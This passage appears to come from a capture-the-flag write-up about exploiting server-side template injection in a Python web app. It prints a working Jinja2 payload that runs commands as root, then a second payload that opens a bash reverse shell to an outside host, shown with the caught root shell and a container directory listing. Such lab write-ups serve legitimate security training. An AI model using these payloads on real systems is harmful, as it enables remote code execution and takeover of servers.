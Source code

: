 It does exist.

Since this is python it is easy to gather SSTI payload:

```python
{% raw %}
{{config.__class__.__init__.__globals__['os'].popen('id').read()}}
{% endraw %}
```

We got the response:

`uid=0(root) gid=0(root) groups=0(root)`

We will just get reverse shell as root. 

```python
{% raw %}
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.16.30/1234 0>&1"').read() }}
{% endraw %}
```

and we have reverse shell as root:

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.30] from (UNKNOWN) [10.10.11.130] 58834
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# 
```

We only have the user flag down and it seems like we are inside a docker environment. 

```bash
root@3a453ab39d3d:/backend# ls -la /
ls -la /
total 88
drwxr-xr-x   1 root root 4096 Nov  5  2021 .
drwxr-xr-x   1 root root 4096 Nov  5  2021 ..
-rwxr-xr-x   1 root root    0 Nov  5  2021 .dockerenv
drwxr-xr-x   1 root root 4096 Nov  5  2021 backend
drwxr-xr-x   1 root root 4096 Nov  5  2021 bin
drwxr-xr-x   2 root root 4096 Oct 20  2018 boot
drwxr-xr-x   5 root root  340 Jul 31 08:43 dev
drwxr-xr-x   1 root root 4096 Nov  5  2021 etc
drwxr-xr-x   1 root root 4096 Nov  5  2021 home
drwxr-xr-x   1 root root 4096 Nov 16  2018 lib
drwxr-xr-x   2 root root 4096 Nov 12  2018 lib64
drwxr-xr-x   2 root root 4096 Nov 12  2018 media
drwxr-xr-x   2 root root 4096 Nov 12  2018 mnt
drwxr-xr-x   2 root root 4096 Nov 12  2018 opt
dr-xr-xr-x 174 root root    0 Jul 31 08:43 proc
drwx------   1 root root 4096 Nov  5  2021 root
drwxr-xr-x   3 root root 4096 Nov 12  2018 run
drwxr-xr-x   1 root root 4096 Nov  5  2021 sbin
drwxr-xr-x   2 root root 4096 Nov 12  2018 srv
dr-xr-xr-x  13 root root    0 Jul 31 08:43 sys
drwxrwxrwt   1 root root 4096 Nov  5  2021 tmp
drwxr-xr-x   1 root root 4096 Nov 12  2018 usr
drwxr-xr-x   1 root root 4096 Nov 12  2018 var
```
